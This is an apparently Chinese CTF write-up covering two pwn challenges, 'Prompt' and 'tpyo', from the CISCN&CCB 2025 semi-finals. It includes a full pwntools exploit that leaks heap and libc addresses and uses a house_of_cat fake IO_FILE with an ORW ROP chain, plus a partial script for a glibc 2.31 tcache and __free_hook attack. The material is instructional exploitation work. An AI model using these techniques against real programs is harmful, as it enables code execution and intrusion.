# CISCN&CCB25半决赛pwn题解-先知社区

> **来源**: https://xz.aliyun.com/news/17311  
> **文章ID**: 17311

---

# Prompt

堆溢出的题目  
  
  
  
这里读入一个size，是一次发送数据的size，这里有个小坑，在逆proto结构的时候把这个和堆块size搞混淆了  
这里通过magic定位到   
  
  
  
然后分析这个option  
这里的1,3,0分别对应id, lable ,type

```
typedef enum {
    /** A well-formed message must have exactly one of this field. */
    PROTOBUF_C_LABEL_REQUIRED,
    /**
     * A well-formed message can have zero or one of this field (but not
     * more than one).
     */
    PROTOBUF_C_LABEL_OPTIONAL,
    /**
     * This field can be repeated any number of times (including zero) in a
     * well-formed message. The order of the repeated values will be
     * preserved.
     */
    PROTOBUF_C_LABEL_REPEATED,
    /**
     * This field has no label. This is valid only in proto3 and is
     * equivalent to OPTIONAL but no "has" quantifier will be consulted.
     */
    PROTOBUF_C_LABEL_NONE,
} ProtobufCLabel;

typedef enum {
    PROTOBUF_C_TYPE_INT32,      /**< int32 */
    PROTOBUF_C_TYPE_SINT32,     /**< signed int32 */
    PROTOBUF_C_TYPE_SFIXED32,   /**< signed int32 (4 bytes) */
    PROTOBUF_C_TYPE_INT64,      /**< int64 */
    PROTOBUF_C_TYPE_SINT64,     /**< signed int64 */
    PROTOBUF_C_TYPE_SFIXED64,   /**< signed int64 (8 bytes) */
    PROTOBUF_C_TYPE_UINT32,     /**< unsigned int32 */
    PROTOBUF_C_TYPE_FIXED32,    /**< unsigned int32 (4 bytes) */
    PROTOBUF_C_TYPE_UINT64,     /**< unsigned int64 */
    PROTOBUF_C_TYPE_FIXED64,    /**< unsigned int64 (8 bytes) */
    PROTOBUF_C_TYPE_FLOAT,      /**< float */
    PROTOBUF_C_TYPE_DOUBLE,     /**< double */
    PROTOBUF_C_TYPE_BOOL,       /**< boolean */
    PROTOBUF_C_TYPE_ENUM,       /**< enumerated type */
    PROTOBUF_C_TYPE_STRING,     /**< UTF-8 or ASCII string */
    PROTOBUF_C_TYPE_BYTES,      /**< arbitrary byte sequence */
    PROTOBUF_C_TYPE_MESSAGE,    /**< nested message */
} ProtobufCType;
```

可以得到

```
syntax = "proto2";

message devicemsg{
     required int32 option = 1;
     required int32 chunk_sizes = 2;
     required int32 heap_chunks_id = 3;
     required bytes heap_content = 4;
}
```

然后导出devicemsg\_pb2.py这个文件。然后和程序进行交互  
就是这个交互卡了半天，最后才搞清楚那个read4字节是你输入一个payload的长度，而在  
  
  
  
  
这两个地方才知道，他是对后续payload的处理得到option以及size等数据，这里很久没写protobuf，有点不熟悉了   
  
搞完这个交互就可以分析程序了，增删查改4个功能   
  
我们可以通过protobuf结构来区分哪个是idx，哪个是size。 比如size就是a1+0x20  
  
edit功能对size输入小于0x500即可  
  
  
然后随便申请一个堆块   
  
通过溢出写直接覆盖到下面堆块的size，泄露出unsortbin的fd获取libc  
  
再次溢出写到unsortbin里面获取heap\_addr  
  
  
堆块顺序太乱了，后面随便申请点堆块打tcabin\_attack攻击\_IO\_list\_all，用house\_of\_cat一把嗦就行了 exit退出后调用read去读入orw链子  
  
  
  


```
from pwn import*  
import sys 
import struct
import devicemsg_pb2
elf=ELF('./1')
p=process('./1') 
#p=remote('',)
context(os='linux',arch='amd64',log_level='debug')
libc=ELF('/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)   
def li(a):
    print(hex(a))     
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])    
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))    
def bug():
    gdb.attach(p) 
def sendmsg(content):
    rl(b'Your prompt >> ')
    s(p32(len(content))+content)
def add(size,idx,content):
    msg=devicemsg_pb2.devicemsg()
    msg.option=1
    msg.chunk_sizes=size
    msg.heap_chunks_id=idx
    msg.heap_content=content
    sendmsg(msg.SerializeToString())
def free(idx):
    msg=devicemsg_pb2.devicemsg()
    msg.option=2
    msg.chunk_sizes=1
    msg.heap_chunks_id=idx
    msg.heap_content=b'a'
    sendmsg(msg.SerializeToString())
def edit(size,idx,content):
    msg=devicemsg_pb2.devicemsg()
    msg.option=3
    msg.chunk_sizes=size
    msg.heap_chunks_id=idx
    msg.heap_content=content
    sendmsg(msg.SerializeToString())    
def show(idx):
    msg=devicemsg_pb2.devicemsg()
    msg.option=4
    msg.chunk_sizes=1
    msg.heap_chunks_id=idx
    msg.heap_content=b'a'
    sendmsg(msg.SerializeToString())
def exit():
    msg=devicemsg_pb2.devicemsg()
    msg.option=5
    msg.chunk_sizes=1
    msg.heap_chunks_id=1
    msg.heap_content=b'a'
    sendmsg(msg.SerializeToString())    
add(0x400,0,b'a'*8)
bug()
edit(0x500,0,b'a'*0x410)
show(0)
libc_base=get_addr()-0x203de0
edit(0x500,0,b'a'*0x460)
show(0)
rl(b'a'*0x460)
heap_base=u64(p.recv(6).ljust(8, b'\x00'))-0x2420

ret = libc_base+libc.search(asm("ret")).__next__()
rdi = libc_base+libc.search(asm("pop rdi
ret")).__next__()
rsi = libc_base+libc.search(asm("pop rsi
ret")).__next__()
rax = libc_base+libc.search(asm("pop rax
ret")).__next__()
syscall=libc_base+libc.search(asm("syscall
ret")).__next__()
rdx=libc_base+0x00000000000b503c
system,bin_sh=get_sb()
open=libc_base+libc.sym['open']
read=libc_base + libc.sym['read']
write=libc_base + libc.sym['write']
stderr=libc_base+libc.sym['stderr']
_IO_list_all=libc_base+libc.sym['_IO_list_all']+31+0x20
setcontext=libc_base + libc.sym['setcontext']
_IO_wfile_jumps =libc_base+libc.sym['_IO_wfile_jumps']

io_addr=heap_base+0x1890

fake_IO_FILE  =p64(0)*2+p64(1)+p64(io_addr+0x8)  
fake_IO_FILE  =fake_IO_FILE.ljust(0x60,b'\x00')  
fake_IO_FILE +=p64(0)+p64(io_addr+0xf0)+p64(system) #rdi,rsi
fake_IO_FILE +=p64(heap_base)              
fake_IO_FILE +=p64(0x100)                          #rdx
fake_IO_FILE  =fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE +=p64(io_addr+0x8)                     #_wide_data,rax1_addr
fake_IO_FILE +=p64(io_addr+0xf0)+p64(rdi+1)         #rsp
fake_IO_FILE +=p64(0)+p64(1)+p64(0)*2
fake_IO_FILE +=p64(_IO_wfile_jumps+0x30)           # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(setcontext+61)+p64(io_addr+0xc8)
fake_IO_FILE +=p64(read)

edit(0x500,0,b'a'*0x408+p64(0x2d0))
add(0x48,1,b'a')
edit(0x500,1,b'a'*0x48+p64(0x21)+b'a'*0x10+p64(0x20)+p64(0x80)+p64(heap_base>>12^_IO_list_all))

add(0x78,2,b'a')
add(0x78,3,b'a')
add(0x78,4,b'a')
add(0x78,5,b'a')
add(0x78,6,b'a')
add(0x78,6,p64(heap_base+0x1890))
add(0x200,7,fake_IO_FILE)

orw  = b'/flag\x00\x00\x00'+p64(rdi) + p64(io_addr+0xf0)  
orw += p64(rsi) + p64(0)
orw += p64(open)

orw += p64(rdi) + p64(3)
orw += p64(rsi) + p64(heap_base+0x100)
orw += p64(rdx) + p64(0x50)*5
orw += p64(read)

orw += p64(rdi) + p64(1)
orw += p64(rsi)+p64(heap_base+0x100)
orw += p64(write)

exit()

sl(orw)

inter()
```

# tpyo

2.31堆溢出

add功能



edit功能



和tpctf的db很像，在fd位置留了一个可覆盖的size位v2 = \*\*((\_QWORD \*\*)&heaplist + v1); // size

​

漏洞在这里以及read(0, s, 0x100uLL);

snprintf(\*((char \*\*)&heaplist + v1), (size\_t)"%lu", s, 8LL);// 溢出

这里会copy0x100的数据到堆上，我们可以控制这里从而修改下一个堆块的fd，从而在edit下一堆块的时候无限溢出



这里fd写的8个a，远程应该改小一点

然后先打tcabin attack攻击tcache perthread struct，这里通过堆溢出踩地址后四位地址（其实是倒数第四位比如这里我本地是b'°' ) 到堆块头这里，留着这个堆块不断地控制堆块数量，为后续做准备。



然后相同手法再来一个堆块申请到tcache perthread struct能控制各个堆块fd的位置



这个完事之后，我们要想泄露libc肯定是要爆破出\_IO\_stdout这个结构体了

那么在申请出这个堆块后，我们算出该堆块大小是0x1e1，那么就提前伪造好堆块size



然后再来一个tcabin\_attack申请到这个fake\_chunk，然后控制堆块数量为7，再free掉这个堆块，可以看到我们的libc地址落到堆块fd位，并且fd可以通过我们的堆溢出进行修改



修改为stdout上方



这里也是需要爆破倒数第四位



改结构体的flags为0xfbad1800覆盖wrtite\_base低位为



然后就能泄露出libc地址

然后再来一个tcabin attack打free\_hook，因为edit写的是fd+8位置，这里申请free\_hook-8以便写到free\_hook内





申请回来填入system，然后free一个/bin/sh的堆块即可获取shell

```
from pwn import*  
elf=ELF('./1')
p=process('./1') 
#p=remote('',)
context(os='linux',arch='amd64',log_level='debug')
libc=ELF('/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)   
def li(a):
    print(hex(a))     
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])    
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))    
def bug():
    gdb.attach(p)
def cmd(i):
    sla(b'>> ',str(i))

def add(idx,size):
    cmd(1)
    sla(b'Index: ',str(idx))
    sla(b'Size: ',str(size-8))
    
def free(idx):
    cmd(2)
    sla(b'Index: ',str(idx))   
 
def edit(idx,con,con2):
    cmd(3)
    sla(b'Index: ',str(idx))
    sa(b'New size of content: ',con)
    sa(b'What do you want to say: ',con2)

add(0,0x98)
add(1,0x98)
add(2,0x98)
add(3,0x98)
add(4,0x98)
